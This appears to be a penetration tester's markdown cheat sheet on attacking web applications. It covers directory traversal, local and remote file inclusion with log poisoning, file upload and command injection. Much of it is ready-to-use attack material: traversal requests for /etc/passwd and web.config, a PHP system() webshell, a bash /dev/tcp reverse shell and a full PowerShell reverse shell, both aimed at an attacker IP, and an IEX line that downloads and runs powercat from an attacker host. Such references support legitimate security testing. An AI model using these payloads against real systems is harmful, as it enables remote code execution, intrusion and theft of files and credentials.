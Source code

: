 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

### Local file inclusion

Php snipet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse the directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

Wrappers:
- all: https://www.php.net/manual/en/wrappers.php
- php: https://www.php.net/manual/en/wrappers.php.php
- data: https://www.php.net/manual/en/wrappers.data.php

Examples:
```
curl http://site/index.php?page=php://filter/resource=somepage.php
curl http://site/index.php?page=php://filter/convert.base64-encode/resource=somepage.php
curl http://site/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl http://site/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Remote file inclusion

Examples:
- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
kali$ python -m http.server 80
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/simple-backdoor.php&cmd=ls"
kali$ nc -lnvp 4444
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/php_reverse_shell.php"
```

Interactive TTY: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
```

## File upload

Test rarer extensions and upper/lowercase mix. \
Powershell reverse shell: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('$AttackerIp',$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Beware of simple and double quotes... \
Webshells on Kali: `/usr/share/webshells`

Overwrite ssh keys in `/home/someuser/.ssh/authorized_keys`

## Command injection

Cmd or PowerShell: `(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`
Invoke-Expression, or IEX: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.3 \
PowerCat: https://github.com/besimorhino/powercat/blob/master/powercat.ps1
Url encoding: https://www.url-encode-decode.com/
```
IEX (New-Object System.Net.Webclient).DownloadString("http://$AttackerIp/powercat.ps1");powercat -c $AttackerIp -p $AttackerPort -e powershell
```
